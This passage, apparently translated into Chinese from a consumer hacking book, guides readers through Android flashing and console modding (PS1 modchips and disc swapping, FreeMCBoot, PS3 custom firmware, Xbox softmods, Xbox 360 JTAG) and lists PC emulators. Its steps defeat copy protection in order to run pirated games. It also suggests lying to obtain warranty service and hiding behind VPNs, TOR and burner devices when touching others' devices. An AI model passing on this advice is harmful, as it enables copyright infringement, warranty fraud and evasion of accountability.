如果你无法让设备完美地符合你的要求，你始终可以刷入新的操作系统。此过程比 root 更危险，而且每个新的`OS`都可能与你的设备不兼容。一如既常，请进行一些网络研究，以确定你的特定设备是否兼容你想刷入的操作系统。`CyanogenMod`（`http://www.cyanogenmod.org/`）是由原 Android 团队开发的流行的 Android 变体。某些设备甚至支持 Linux 发行版，使其成为极具便携且功能强大的设备。我们在这里不讨论刷入的细节，但你可以在你找到的自定义 OS 构建网站上找到许多教程和指南。

还有其他很棒的 root 应用，例如管理特定权限的应用（`PDroid`、`Permissions Denied`）以及删除广告的应用（`AdAway`），但这些应用通常会被联邦政府下架和封锁。获取这些应用的唯一方法是在 apk 网站上找到它的上传版本，或者使用`VPN/Proxy`伪装你的位置在另一个国家。

总之，root Android 提供了近乎无限的可能性。在 root 或刷入新的`OS`后，你真的可以完全控制你的设备。在进行修改时要要非常，，因为有很大可能导致保修失效甚至设备变成“砖”。然而，所获得的处对于黑客和调制人员来说实在太大了，不忍放弃。

## 移动设备破解与修改的风险

破解或侵入另一个移动设备在法律上与 PC 和服务器破解具有相同的法律模糊性——某些州和联邦政府认为破解是违法的，无论涉及的是手机还是电脑。

尽管如此，请记住黑客宣言，黑客是仁慈的，因为他们只是好奇。一些人认为运营商和手机制造商限制对设备的访问是有罪的，因此黑客试图通过越狱和调制来纠正这种局面——让设备真正属于他们自己。

个人可能永远不会因为对自己的设备进行简单修改而入狱。黑客只会通过越狱和 root 导致保修失效。变“砖”也是一种可能，但那是个人后果而非法律后果。

然而，未经许可动他人的设备可能是危险且违法的，许多法院将此视为侵犯隐私。黑客必须始终使用在前书中列出的策略来保护自己（`VPN`、代理、隐藏身份、使用“一次性”设备、`TOR`等……）。

总体而言，只要黑客遵守伦理并出于善意行事，实验所涉及的风险并不多。然而，大规模的犯罪不会不被注意到。而且，无论黑客能多巧妙地保护自己（正如圣地伯纳底事件所示），如果犯罪足够大，政府将分配大量资源来反对该黑客。谨慎破解，并始终保持伦理道德。

## 调制视频游戏主机

视频游戏机自客厅娱乐之初就开始被调制（modded）。在`NES`时代，一些未经许可的公司通过将软件烧录到空卡带中并绕过复制保护来制作游戏。对于随后的主机机，调制也成了常态，许多读者可能还记得那些可以播放刻录光盘的 PlayStation 故事，或者可以从`SD`卡读取游戏的 Wii 故事。如果读者从未有幸亲眼看到被破解和调过的控制机，我向他们保证，那是黑客知识和技巧的奇迹。几乎每个游戏主机都可以通过某种方式进行修改来改进其功能，本章将介绍一些流行的修改以及如何执行。作为参考，调制有两种类型——硬改（hardmods）和软改（softmods）。硬改是对主机机近乎不可逆的物理改变，例如涉及焊接调制芯片的修改。软改是对主机机软件的修改，例如`PS2`的`FreeMCBoot`内存卡破解。

大多数主机机破解需要额外的组件、焊接技巧或特定的软件。注意，手抖或漏掉指令可能会损坏非常昂贵的主机机，因此在尝试之前确保你可以无误地完成修改。如果看起来太复杂，也有网站和人员可以付费为你执行这些修改，所以请权衡你的选择并挑选你觉得最舒适的。

### NES

虽然大多数人都是玩着`NES`长大的，但毫无疑问，这台主机在现代 LCD 和 LED 电视上玩起来非常困难。要么是新电视没有所需的接口，要么是由于过时的线缆和低效率图形芯片，画质看起来非常糟糕。幸运的是，存在一种调制可以让`NES`通过`HDMI`输出视频和音频——这是一个巨大的提升，提高了旧主主机的图形质量。

`https://www.game-tech.us/mods/original-nes/`包含一个 120 美元的套件（包含安装也为 220 美元），可以焊接到正常的`NES`上。

`NES`和其他旧主机的多数调制都是如此。必须购买并相应焊接子主板或额外组件以增加功能。通过调制复兴旧主机是许多黑客享受的乐趣爱好。

### PlayStation

破解芯片（modchip）是一种用途巧妙的硬件。在原始的 PlayStation 1 上，可以安装破解芯片来允许播放刻录的光盘。这意味着黑客可以从互联网下载游戏 ROM，将其刻录到 CD 中，然后就能毫无问题地在原始硬件上运行它，而无需配置复杂的模拟器。破解芯片的工作原理是通过向主机中注入代码，欺骗它认为插入的光盘已成功通过了光盘复制保护。因此，破解芯片需要焊接在主板上。在 PlayStation 上，这是一个相当于容易的过程。

### PS1 破解方法

1. 你需要一个与你的 PS1 型号相对应的破解芯片。[`www.mod-chip.net/8wire.htm`](http://www.mod-chip.net/8wire.htm)包含了最流行的破解芯片——请确保你的`SCPH`编号与兼容型号匹配。（我们将使用 8 线的破解法。）
2. 拆解 PS1，取出所有螺丝，拆下 CD 激光头，移除所有组件，将裸主板放在你的电烙台上。拍摄拆解过程的照片，以便提醒自己以后如何将所有东西装回去。


## 破解游戏主机

### PS1

从此列表 [`www.mod-chip.net/8wiremodels.htm`](http://www.mod-chip.net/8wiremodels.htm) 中选择型号，并将图片中的数字与破解芯片的线路对应并进行相应的焊接。你需要一个小烙铁头和稳定的手才能成功完成。

尽管如此，破解芯片有点吓人，但幸运的是，有一种通过焊接来播放刻录光盘的方法。光盘交换法（`disc-swap method`）可以欺骗 PS1 在另一张光盘上验证复制保护，然后迅速将刻录的光盘放入主机中。以下是具体操作方法：

1. 在传感器上贴一段胶带，这样光盘在光驱盒打开时也能旋转。在打开和关闭盖子时，你可以看到盖子按下的按钮，它告诉主机盖子已关闭。用胶带封住，让主机始终处于“关闭”状态。

2. 将一张正版光盘放入光驱并启动主机。

3. 光盘会快速旋转，然后减速到半速。在半速期间，迅速将正版光盘更换为刻录副本。这个过程非常快，必须在不到一秒内完成。

4. 刻录光盘将全速旋转，然后减到半速以扫描复制保护。一旦它减速，立即将其换回正版 PS1 光盘。

5. 观察屏幕，一旦屏幕变黑，再次切换回刻录光盘并关闭光驱盒。现在这张虚假光盘就可以播放了。

这两种方法都是多年来破解的方法，但一种新产品进入市场，简化了 PS1 的破解。`PSIO` ([`ps-io.com/`](http://ps-io.com/)) 是一件允许 PS1 从 `SD card` 读取游戏的硬件。只需支付费用，创建者会将这个方便的设备安装到你的 PlayStation 上，并永远地简化播放盗版和备份游戏的过程。

### PS2

在最后几款游戏制作后，PlayStation 2 在多年后一直是受欢迎的主机。尽管存在硬件破解和复杂的程序，但破解 PS2 主机简单的方法是购买一张内存卡。`FreeMCBoot` (`FMCB`) 是一种软件漏洞利用，它可以劫持“大版”PS2，并允许通过软解（`softmod`）执行自定义软件。你只需在网上购买一张 10 美元的 `FMCB` 内存卡，也可以自己制作一个。你需要一台大版 PS2、一份 `AR Max EVO` 副本、一张空白内存卡和一个 U 盘。

1. 下载 `FreeMCBoot` 安装程序 ([`psx-scene.com/forums/attachments/f153/14901d1228234527-official-free-mc-boot-releases-free_mcbootv1.8.rar`](http://psx-scene.com/forums/attachments/f153/14901d1228234527-official-free-mc-boot-releases-free_mcbootv1.8.rar)) 并将其放在 U 盘中。

2. 启动 `AR MAX`，插上 U 盘和内存卡。

3. 导航到媒体播放器并访问“next item”（下一项）以加载位于 U 盘上的 `FREE_MCBOOT.ELF`。按下播放。

4. 按照说明操作，`FreeMCBoot` 将安装到内存卡上。

现在，`FreeMCBoot` 将预装了许多很棒的软件——你只需插入修改过的内存卡并启动 PS2，`FreeMCBoot` 就会临时软解你的主机。播放备份游戏也简单。

1. 在电脑上准备好你想运行的游戏的 `.iso` 文件。

2. 下载 `ESR` 光盘补丁 ([www.psx-scene.com/forums/showthread.php?t=58441](http://www.psx-scene.com/forums/showthread.php?t=58441))，运行并对 `.iso` 进行补丁。

3. 使用修改后的 `.iso` 刻录一张空白 DVD。`ImgBurn` 是此项工作的极佳程序。

4. 将光盘放入 PS2，启动 PS2，`FreeMCBoot` 将加载。在菜单中导航到 `ESR` 工具。启动它，游戏就会开始运行。

### PS3

PlayStation 3 起初的功能允许安装如 `Linux` 等操作系统——将一台简单的游戏机变成了家用电脑。黑客利用了“OtherOS”功能并“越狱”（`jailbroke`）了 PS3。破解后的设备能够播放备份/下载的游戏以及“自制”（`homebrew`）软件。尽管如此条件限制了可以破解的 PS3 主机数量。只有固件版本在 3.55 及以下的 PS3 才能修改；你可以通过“设置”、“系统”，然后是“系统信息”来检查。如果你的 PS3 碰好更新过了此版本，那么你对降级做不了太多事情，而且 eBay 上的 3.55 版本 PS3 非常昂贵。我们不会解释降级过程，但请研究 `E3 Flasher` 将你的版本号降回 3.55。

如果你的版本号低于 3.55，软件必须更新到正确的版本。千万不要让 PS3 自动这样做，否则它会更新到 3.55 以上并破坏我们破解的机会。相反，你需要下载 3.55 更新 ([`www.mediafire.com/download/dp6uhz4d15m3dll/ofw+3.55.rar`](http://www.mediafire.com/download/dp6uhz4d15m3dll/ofw+3.55.rar))，在空白 U 盘上创建一个名为 `PS3` 的文件夹，在该文件夹内创建一个 `UPDATE` 文件夹。将 3.55 更新放入 `UPDATE` 文件夹并将其插入 PS3。按住电源按钮直到听到三声提示以进入恢复模式。你需要连接手柄进行操作。选择“更新”，按照屏幕指示操作，PS3 将从 U 盘更新。

按照以下步骤安装自定义固件：

1. 将 U 盘格式化为 `FAT32` 以清理内容。

2. 在磁盘上创建 `PS3` 文件夹，然后在其中创建一个 `UPDATE` 。

3. 下载并解压包含自定义固件的 `.rar` ([`www.mediafire.com/download/qzpwvu3qyaw4/3.55+CFW+Kmeaw.rar`](http://www.mediafire.com/download/qzpwvu3qyaw4/3.55+CFW+Kmeaw.rar), 可能会变化)) 到 `UPDATE` 文件夹中。

4. 将更新文件放入 U 盘，进入恢复模式并安装 `PS3UPDAT.PUP`。你现在有了自定义固件。

使用名为 `MultiMAN` 的工具在 PS3 上玩游戏非常简单。该程序运行在自定义固件上并允许备份和运行游戏。首先，获取 4.05 及以上版本的 `MultiMAN` ([`www.mediafire.com/download/16dbcwn51gtzu47/multiMAN_ver_04.78.02_STEALTH_%2820160328%29.zip`](http://www.mediafire.com/download/16dbcwn51gtzu47/multiMAN_ver_04.78.02_STEALTH_%2820160328%29.zip, 可能会变化))，这些版本支持我们安装的 CFW。解压它并将文件放在 U 盘中，插入并启动修改过的 PS3。在“游戏”部分，选择“安装包文件”，然后安装 `MultiMAN` `pkg` 文件。应用程序将安装完成。

`MultiMAN` 的一个强大功能是直接在 PS3 上对光盘进行备份。租一个游戏或向朋友借一个游戏，启动 `MultiMAN`，在系统中插入光盘，应用程序就会显示该游戏。进入选项并选择“复制”。游戏将被复制到内部硬盘中，并且可以在不插光盘的情况下通过 `MultiMAN` 运行。如果你下载了游戏副本，那么当你通过外部硬盘连接它们时，`MultiMAN` 也会识别它们，你就可以玩它们。

总的来说，PlayStation 3 自定义固件拥有无限可能，这本书永远无法希望记录所有的可能性。在刷机时要小心，并且务必反复检查操作步骤和研究。`http://www.ps3hax.net/archive/index.php/t-18606.html` 包含一个关于安装自定义固件和玩备份游戏的极佳指南；在执行安装 CFW 之前请查看该网站。还有其他需要担心的事情，例如在运行 CFW 的 PS3 上连接互联网。索尼服务器会收集连接互联网的 PS3 的信息，它们可能有能力远程禁用检测到正在运行 CFW 的 PS3。抛开这一切不谈，享受破解过程，并祝贺自己尝试了这种特别困难且危险的事情。

## Xbox

原始 Xbox 是一款非常流行的破解主机，因为其方法简单，而且通过修改可以获得多种功能。你需要一个 U 盘、`Xplorer360` 程序（`http://www.xbox-hq.com/html/article2895.html`）、破解文件（`http://www.1337upload.net/files/SID.zip`，链接可能会变化——如果变化了，请搜索 XBOX softmod 文件）、一个[带 USB 端口的控制器](http://www.instructables.com/id/Original-XBox-Controller-Memory-Card-Slot-USB-Conv/)以及一个可以利用漏洞的游戏。《Splinter Cell》 可以与上述文件配合使用。以下是软破解（`softmod`）指南。

1. 在插好 U 盘的情况下启动 Xbox。它会被格式化。

2. 将 U 盘插入电脑，解压下载的软破解文件，并打开 `Xplorer360`。

3. 点击“drive（驱动器）”、“open（打开）”、“hard drive or memory card（硬盘或内存卡）”。`Partition 0` 就是 U 盘。

4. 将解压的软破解文件拖入 360 程序，它们将会被放入 U 盘中。

5. 将 U 盘插入 Xbox 并文件移动到内部硬盘中。

6. 启动游戏并加载存档（即软破解程序）。按照屏幕提示破解 Xbox。

使用软破解后的 Xbox，你可以进行很多很酷的媒体中心操作，例如播放视频和音频，甚至使用模拟器。在网上查看所有可能的玩法。

## Xbox 360

仪表板版本在 7371（内核 `2.0.7371.0`）之前的 Xbox 是可以破解的，而更高版本的则必须使用[“RGH”方法。](http://www.instructables.com/id/How-to-hackRHG-your-Xbox-360/?ALLSTEPS)被利用漏洞的 360 可以运行备份游戏和自制程序。[该过程（被称为 JTAG）](http://www.instructables.com/id/How-to-JTAG-your-Xbox-360-and-run-homebrew/?ALLSTEPS)过于复杂且多样，无法在这里完全涵盖，因此我们只进行简要概述。你的 360 主板决定了要遵循哪种流程，所以请密切注意。

1. 组装必要的零件（1 个 `DB-25` 接口、1 条 `DB-25` 线、1 个 `1n4148` 二极管、3 个 330 欧姆电阻（适用于 xenon 主板）。

2. 将电阻焊接到主板上，以创建一个插入电脑的定制线缆。

3. 将 `DB-25` 接口插入电脑并使用链接中的软件转储 `nand`。

4. 测试 `nand` 中的 `CB` 以确保特定型号可以被利用。

5. 选择正确的文件进行刷机并刷写主板。重启后复制 `CPU key`。你的 360 将被破解，但单机本身将变得完全没用。使用独立的程序（如 `X360GameHack`）来玩备份和下载的游戏。

[这里有一个关于 360 破解过程的精彩视频](https://www.youtube.com/watch?v=5t0gX4V2CYQ)。要小心，因为这种 360 和 PS3 破解非常危险，可能会导致主机变砖。

## 设备变砖了该怎么办

有时修改会失败。尽管设备看起来可能丢失了，但它们并不总是完全变砖。当你放弃了一台设备并准备将其扔进垃圾桶时，请考虑以下选项。

*   尝试重新刷机。也许这次过程会完全完成并让设备再次可用。

*   如果越狱失败，进入恢复模式并尝试使用 `iTunes` 从电脑恢复。

*   研究问题以及确切的错误发生之处。也许其他人也遇到过相同的情况并解决了它。

*   如果设备在保期内，你可以为它不工作找一个合理的借口。（iPhone 过热了，所以现在无法启动了！）

*   拆解设备当零件。仅仅一个部分坏了并不意味着其他所有部分都坏了。

*   在 eBay 上卖掉。人们会为了零件支付不菲的钱。

砖机并不是没用，所以在在至少尝试救活之前，永远不要直接把它扔掉。

## PC 模拟器

如果你没有主机或太紧张不敢去破解它们，你始终可以使用 PC 来玩主机游戏。PC 上的模拟器对于任何拥有强大电脑的黑客来说都是棒。电脑及其强大的图形处理能力开启了对更现代系统的模拟，例如 PlayStation 2、Dreamcast，甚至是像 Xbox 360 这样新的系统。参考下表获取你可以下载的一些最佳 PC 模拟器程序。

| 适用于 Windows 7、8 和 10 的模拟器 |

| 主机 | 推荐模拟器 | 备选方案 |

| :--- | :--- | :--- |

| NES | Mednafen | FCEUX |

| SNES | Higan/bsnes | ZSnes |

| 街游戏 | MAME | 无 |

| Gameboy | VisualBoy Advance M | NO$GBA |

| DS | DeSmuME | NO$GBA |

| Genesis/Game Gear/Sega CD | Fusion | Genesis Plus GX |

| Saturn | SSF | Yabause |

| N64 | Project64 | Mupen64Plus |

| Gamecube/Wii | Dolphin | 无 |

| PS1 | ePSXe | PCSX |

| PS2 | PCSX2 | Play! |

| PSP | PPSSPP | PSP1 |

| PS3 | ESX | RPCS3 |

| Xbox | XQEMU | Xeon |

| Xbox 360 | Xenia | 无 |

| Wii-U | CEMU | Decaf |

上述某些模拟器在你阅读本文时可能过时或消失，但就目前而言，它们是你下载的最好的程序。无疑，更现代的主机（如 Xbox 360）需要超级计算机才能运行；而像 N64 这样较旧的主机在基础硬件上就能完美模拟。

## 结论

移动破解、越狱、Root、主机修改和模拟的世界是一个奇妙的世界。那些实现这些的人可以获得定制化的自由，但破解始终是一项具有风险的任务。个人破解只涉及保修和合同，但破解他人可能会引起当局的注意。

始终要记住以道德的方式破解，或者至少保护自己以防更险恶的行为。归结底，难道移动运营商和主机制造商锁定我们购买的设备的真实所有权才是卑劣的吗？感谢购买并阅读本书。如果你想看到更多破解指南，请务必留下反馈。

## 相关书籍

[破解大学：入门级——如何成为业余黑客的基础指南](https://www.amazon.com/Hacking-University-Essential-Beginner%E2%80%9s-Beginners-ebook/dp/B01J023VTU/keywords=hacking)


[破解大学：进级版——提升你破解水平的必备指南。破解移动设备、平板电脑、游戏主机和应用](https://www.amazon.com/Hacking-University-Sophomore-Essential-Consoles-ebook/dp/B01KVZ9KM2/keywords=hacking)


[黑客大学：少年版。从零开始学习 Python 计算机编程。成为 Python 英雄。精通 Python 语言终终入门指南](https://www.amazon.com/Hacking-University-Programming-Beginners-Mastering-ebook/dp/B01LXKKBDN/keywords=hacking)



[黑客大学：高级版 Linux。精准学习和攻服 Linux 操作系统的最佳入门指南。Linux 命令行原理完整分步指南](https://www.amazon.com/dp/B01M2A2QLJ)



[黑客大学：毕业版。4 本手稿（计算机、移动、Python 和 Linux）。黑客计算机、移动设备、App、游戏主机，并学习 Python 与 Linux](https://www.amazon.com/Hacking-University-Graduation-Manuscripts-Computers-ebook/dp/B01N52W8QX/ref=sr_1_53?s=digital-text&ie=UTF8&qid=1484352327&sr=1-53&keywords=hacking)



[数据分析：实用数据分析与统计指南，助力转型和演进任何业务，利用数据分析、数据科学和预测性分析的力量](https://www.amazon.com/Data-Analytics-Practical-Statistical-Leveraging-ebook/dp/B01JTIIRCG/keywords=data+analytics)


C++：像大佬一样学习 C++。编程编码与主宰 C++ 的入门指南。从新手到专家的快速学习与精通 C++指南



## 关于作者


Isaac D. Cody 是一位来自纽约市、充满自豪、精明且正直的黑客。目前，Isaac 在纽约中心的一家中型信息技术公司工作。他渴望作为安全黑客为美国政府工作，同时也热爱教授他人技术的未来。Isaac 坚信，未来将很大程度上依赖计算机“极客”来确保安全、公司的成功以及未来的职业发展。在空余时间，他喜欢分析和研究关于篮球运动的一切。
